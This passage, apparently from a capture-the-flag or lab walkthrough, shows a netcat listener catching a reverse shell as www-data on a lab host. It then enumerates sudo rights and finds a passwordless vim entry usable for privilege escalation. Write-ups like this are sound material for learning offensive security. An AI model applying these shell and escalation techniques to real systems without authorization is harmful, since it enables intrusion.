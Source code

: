 And Set a listener and call it.

![](/assets/img/posts/mns/26.png)

We have successfully obtained a reverse shell as `www-data`. Next, let's check for sudo privileges by running the `sudo -l` command.

```bash
➜ nc -lnvp 443 
listening on [any] 443 ...
connect to [192.168.20.2] from (UNKNOWN) [192.168.20.15] 57568
Linux 15b18bf5f8ec 5.15.0-133-generic #144-Ubuntu SMP Fri Feb 7 20:47:38 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 13:01:03 up  1:04,  0 users,  load average: 0.67, 0.19, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(john)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),1000(john)
$ sudo -l
Matching Defaults entries for www-data on 15b18bf5f8ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 15b18bf5f8ec:
    (john) NOPASSWD: /bin/vim
$ 
```

## Privilege Escalation:

The output shows that the user `www-data` has permission to run the following commands on the machine. And the entry `(john) NOPASSWD: /bin/vim` indicates that `www-data` can execute the `vim` text editor as the user john without requiring a password, providing a potential privilege escalation.
